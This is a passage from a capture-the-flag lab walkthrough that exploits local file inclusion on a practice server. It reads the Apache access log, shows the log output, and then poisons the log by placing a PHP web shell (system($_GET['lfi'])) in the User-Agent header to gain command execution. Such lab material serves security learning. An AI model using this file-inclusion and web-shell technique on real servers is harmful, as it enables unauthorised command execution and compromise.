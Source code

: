 This is how the apache log file looks like to have the ability to use log poisoning:

![](https://i.imgur.com/ZPoSMdr.png)

1. We got our hands a bit dirty with basic LFI and LFI using path traversal. Let's dig a little deeper, and use log poisoning to get access to the underlying operating system.

`No answer needed`

2. We will inject some malicious php code into the server's log. *Note: In order for that to happen, the directory should have read and execute permissions.*

`No answer needed`

3. Access the third walkthrough, add the "?page=" parameter and let's try reading the apache log file. The log file is located at the following path: /var/log/apache2/access.log

`No answer needed`

4. Can you read the log (Yes/No)?

`http://10.10.141.166/lfi/lfi.php?page=/var/log/apache2/access.log`

```
File included: /var/log/apache2/access.log<br><br><br>Local file to be used: /var/log/apache2/access.log<br><br>10.8.106.222 - - [28/Sep/2020:10:21:03 -0700] "GET /lfi2/lfi.php HTTP/1.1" 200 269 "http://10.10.141.166/?page=home.html" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
10.8.106.222 - - [28/Sep/2020:10:21:13 -0700] "GET /lfi2/lfi.php?page=home.html HTTP/1.1" 200 335 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
10.8.106.222 - - [28/Sep/2020:10:22:09 -0700] "GET /lfi2/lfi.php?page=creditcard HTTP/1.1" 200 329 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
10.8.106.222 - - [28/Sep/2020:10:23:09 -0700] "GET /lfi2/lfi.php?page=creditcard HTTP/1.1" 200 329 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
10.8.106.222 - - [28/Sep/2020:10:23:15 -0700] "GET /lfi2/lfi.php?page=../creditcard HTTP/1.1" 200 346 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
10.8.106.222 - - [28/Sep/2020:10:24:40 -0700] "GET /lfi2/lfi.php?page=/var/log/apache2/access.log HTTP/1.1" 200 346 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
10.8.106.222 - - [28/Sep/2020:10:24:49 -0700] "GET /lfi/lfi.php HTTP/1.1" 200 264 "http://10.10.141.166/?page=home.html" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

`Yes`

5. Since you can do it, let's "poison" it! Fire up Burpsuite and intercept the request (Burp usage is not mandatory, I just like using Burp a lot. You can use ZAP, or other tools you like). Let's insert the following malicious code in the user agent field (The PHP command will allow us to execute system commands by parsing the input to a GET parameter called lfi):

![](https://i.imgur.com/v60QYcZ.png)

Forward the request and add your parameter to the link (in my case lfi). The link becomes: `http://<IP>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=` Now you can execute commands on the system! Note: In case you don't like the how the output looks as you execute commands, you can press CTRL+U (view source). It will look better.

```php
<?php system($_GET['lfi']) ?>
```
